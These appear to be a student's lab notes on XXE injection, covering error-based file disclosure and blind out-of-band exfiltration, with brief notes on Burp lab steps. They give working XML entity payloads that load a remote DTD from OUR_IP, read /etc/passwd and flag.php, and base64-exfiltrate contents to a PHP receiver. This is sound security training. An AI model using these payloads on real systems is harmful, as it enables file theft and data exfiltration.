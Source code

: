 #### Call our external DTD script and reference the error entity
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
Calls `xxe` file from the Advanced File Disclosure section. *Make sure to start the python web server.*

This method may also be used to read the source code of files by changing the file name in our DTD script to point to the file we want to read (e.g. "`file:///var/www/html/submitDetails.php`"). However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.

***LAB Notes:*

1) CDATA
![[adv file disclosure - cdata.png]]
Made the file on Kali, started the python web server, modified the DTD and email field

2) Error-based
![[error 1.png]]
Went to `/error` page. Modified `<root>` to `<roo>`, and the email field to `&nonExistingEntity;`

Created a dtd file on Kali (`xxe-error.dtd`):
```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
Started python web server

Modified Burp Request
![[adv file disclosure - error.png]]

### Blind Data Exfiltration - Out-of-Band (OOB)

#### Create a `.dtd` file that contains a php request for the content of the file we want to read and our python web server's IP address and port
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the file parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`.

#### Write a PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
